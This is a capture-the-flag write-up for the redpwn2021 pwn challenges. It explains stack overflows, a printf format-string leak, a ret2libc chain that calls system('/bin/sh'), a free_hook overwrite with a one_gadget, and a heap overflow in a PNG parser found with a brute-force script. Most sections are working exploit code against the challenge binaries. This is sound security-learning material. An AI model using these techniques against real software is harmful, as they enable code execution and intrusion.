 # redpwn2021-pwn

[toc]

## beginner-generic-pwn-number-0(done)

simple stack overflow 

```python
cn.sendlineafter("message to cheer me up? :(", flat('a' *0x28, -1))
```

## ret2generic-flag-reader(done)

simple stack overflow return to .text

```python 
payload = flat('a' * 0x20, 1, 0x00000000004011F6)
cn.sendline(payload)
```

## printf-please(done)

printf format string vulnerability.

%p leak flag on the stack, and turn them into string.

```python
payload = flat("pleaseaa%70$p%71$p%72$p%73$p%74$p0x")
cn.sendline(payload)
a = cn.recvuntil('0x')[:-2]
a0 = codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[:-2], 'hex')[::-1]
a0 += codecs.decode(cn.recvuntil('0x')[1:-2], 'hex')[::-1]
print(a0)
```

## ret2the-unknown(done)

stack overflow.

return to the system function in libc.

```python 
libc = ELF("./libc-2.28.so")

main = 0x000000000401186

cn.sendlineafter("get there safely?", flat('a' * 0x20, 0, main))
cn.recvuntil("to get there: ")
printf = int(cn.recv(12), 16)
blibc  = printf - libc.sym['printf']
print("blibc: " + hex(blibc))
system = blibc + libc.sym['system']
binsh  = blibc + next(libc.search(b"/bin/sh\x00"))
poprdi = 0x0000000004012A3
ret    = 0x0000000004012A4

cn.sendline(flat('a'*0x20, 0, ret, poprdi, binsh, system))

```

## simultaneity(done)

the libc address is obtained by fixing te heap block from mmap and the libc offset, and writing to any address by offset.

when scanf accepts a large amount of data, the running order is: malloc, write to the target address, free.

so modify `free_hook` to `one_gadget`, and prefix it with a lot of zeros, so that it will be called to `onegadget` when it is free.

```python
cn.sendlineafter("how big?", str(0x300000))
cn.recvuntil("you are here: 0x")

heap = int(cn.recv(12), 16) - 0x10
print("heap: " + hex(heap))

blibc = heap+ 0x301000
print("blibc: " + hex(blibc))

libc = ELF("./libc.so.6")
len = libc.sym['__free_hook'] + 0x301000 - 0x10
print("len: " + hex(len))

cn.sendlineafter("how far?", str(len // 8))
cn.sendlineafter("what?", '0' * 0x800 + str(blibc + 0xe5456))

```

## image-identifier(done)

The program itself is a bit difficult to reverse, mainly for parsing files,
When parsing the file content, you can construct special file content that causes overflow when writing to the file, .text:0000000000004015F9, and modify the pointer stored in the heap block behind,
When you call `pngFooterValidate` later, you can change it to the `win` function.

```python

leng = 0x29
cn.sendlineafter("How large is your file?\n\n", str(leng))
pngheader = [0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]
data = list(flat(bytes(pngheader), 'a').ljust(leng, b'\x00'))

data[11] = 0xd

data[29] = 0xc9
data[30] = 0xef 
data[31] = 0xf1
data[32] = 0xbd

data[0x24] = 0x30 - 1 - 8

# wow, this causes `updata_crc` to return 0x1818(win+4)
data[0x25] = 0x18
data[0x26] = 0x0b

# data[0x28] = 0x1

cn.sendafter("please send your image here:\n\n", bytes(data))
cn.sendlineafter("do you want to invert the colors?\n", "y")

```

About this magic data, `data[0x25] = 0x18, data[0x26] = 0x0b`, 

Blast it with the following script

```python

leng = 0x29
pngheader = [0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A]
data = list(flat(bytes(pngheader), 'a').ljust(leng, b'\x00'))

data[11] = 0xd

data[29] = 0xc9
data[30] = 0xef 
data[31] = 0xf1
data[32] = 0xbd

data[0x24] = 0x30 - 1 - 8


for i in range(0, 0xff):
    for j in range(0, 0xff):
        cn = process("./chal")
        cn.sendlineafter("How large is your file?\n\n", str(leng))
        # wow, this causes `updata_crc` to return 0x1818
        data[0x25] = i
        data[0x26] = j

        # data[0x28] = 0x1
        cn.sendafter("please send your image here:\n\n", bytes(data))
        cn.sendlineafter("do you want to invert the colors?\n", "y")

        time.sleep(0.5)

        print("i: " + hex(i) + "\nj: " + hex(j))

        if cn.poll() == None :
            print("!!!")
            break;

        cn.close()
```

The following data can be obtained: 

`i=0x04, j=0x40`: 0x4018e4 (main+185)

`i=0x07, j=0x7d`: 0x401179 (_start+9)

`i=0x0b, j=0xf3`: 0x4018ee (main+195) 

`i=0x11, j=0x15`: 0x4018c7 (main+156)

`i=0x15, j=0x37`: 0x40182b (main)

`i=0x18, j=0x0b`: 0x401818 (win+4) !!!!!!!!!!!

`i=0x1f, j=0x14`: 0x401169 (exit@plt+9)

`i=0x21, j=0xc7`: 0x4018e7 (main+188)

`i=0x22, j=0xfa`: 0x40117a (_start+10)

## empires